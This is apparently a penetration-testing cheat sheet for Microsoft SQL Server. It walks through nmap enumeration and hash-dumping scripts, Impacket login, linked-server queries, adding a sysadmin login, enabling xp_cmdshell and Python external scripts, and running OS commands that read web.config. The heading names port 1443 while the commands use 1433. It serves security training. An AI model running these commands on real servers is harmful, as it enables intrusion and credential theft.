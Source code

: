 # MSSQL: Port 1443

1. Perform a quick nmap scan

        nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>

2. Connect to MSSQL server using [Impacket](../../Network/Network/impacket_tools/README.md)'s `mssqlclient.py` tool (when database credentials are known)

        $ ./examples/mssqlclient.py username@10.12.13.4

3. Once connected, try following commands

        SQL> select suser_name()
        SQL> select name,sysadmin from syslogins
        SQL> select srvname,isremote from sysservers
        SQL> select name from sysdatabases

    Identify any linked server

4. Execute queries on a **linked server**, if one exists

        SQL> exec('select current_user') at [LinkedServer\ServerName];
        SQL> exec('select name,sysadmin from syslogins') at [LinkedServer\ServerName];
        SQL> exec('select srvname,isremote from sysservers') at [LinkedServer\ServerName];
        SQL> exec('exec(''select suser_name()'') at [NestedLinkedServer\NestedServerName]') at [LinkedServer\ServerName]

5. Sysadmin-level users can enable and execute system commands using the `xp_cmdshell` stored procedure. 
   1. Add a **new SQL user**.

            exec sp_addlogin 'mirage','Password123'

   2. Give **sysadmin** privileges to the user

            exec sp_addsrvrolemember 'mirage','sysadmin'

   3. Connect to MSSQL server as a sysadmin

            mssqlclient.py mirage@10.12.13.4

   4. Enable `xp_cmdshell` with `sp_configure`
            
            SQL> sp_configure 'show advanced options', '1'
            SQL> RECONFIGURE
            SQL> sp_configure 'xp_cmdshell', '1' 
            SQL> RECONFIGURE

   5. Execute commands

            SQL> xp_cmdshell whoami
            SQL> xp_cmdshell "dir c:\"
            SQL> xp_cmdshell icacls C:\inetpub\wwwroot\web.config

   6. Execute **externals scripts** written in R or Python

            SQL> sp_configure 'external scripts enabled',1
            SQL> RECONFIGURE
            SQL> sp_execute_external_script @language = N'Python', @script = N'print("Hello world!");';
            SQL> sp_execute_external_script @language = N'Python', @script = N'import os; os.system(''dir C:\\inetpub\\wwwroot'')';
            SQL> sp_execute_external_script @language = N'Python', @script = N'import os; os.system(''type C:\\inetpub\\wwwroot\\web.config'')';

## Resources

* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
* https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15